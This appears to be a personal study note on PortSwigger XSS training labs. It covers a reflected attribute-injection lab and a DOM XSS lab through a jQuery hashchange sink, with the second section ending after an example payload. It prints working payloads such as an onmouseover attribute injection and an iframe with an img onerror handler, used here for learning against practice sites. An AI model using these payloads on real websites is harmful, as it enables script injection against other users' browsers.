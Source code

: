
---

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded
* Description: This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded.
* Goal: To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.

### Recon
1. Find the place to inject
Input: `abc`
![](https://i.imgur.com/RfMiJ1W.png)
Seems we have 2 candidates

2.  How about script tag
Input: `<script>alert(123)</script>`
![](https://i.imgur.com/mLhHdgh.png)
Seems angle brackets are HTML-encoded and not working properly.

3. How about `href` attribute?
Input: `"javascript:alert(123)`
![](https://i.imgur.com/NNm3USg.png)
Still not working for input tag.

### Exp - <font color="FF0000">New payload</font>
Input: `" onmouseover="alert(1)`
![](https://i.imgur.com/BDO0c0s.png)

:::spoiler Success Screenshot
![](https://i.imgur.com/jvGdCEE.png)
:::


---

## Lab: DOM XSS in jQuery selector sink using a hashchange event:four:
* Description: This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property. 
* Goal: To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

### [Background - DOM XSS in jQuery](https://portswigger.net/web-security/cross-site-scripting/dom-based)
簡單來說，有些頁面支援`jQuery`的`location.hash`功能，也就是在URL的末端添加`#XXX`，前端會自動scrolling到對應的位置(就是Github那樣)，文章中有提到如果hash是使用者可以控制的，攻擊者可以使用它來將 XSS 向量注入 `$()` seletor接收器。 較新版本的`jQuery`已通過阻止使用者在輸入以hash character(#)開頭時將 HTML 注入seletor來修補此特定漏洞。
Payload for example: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
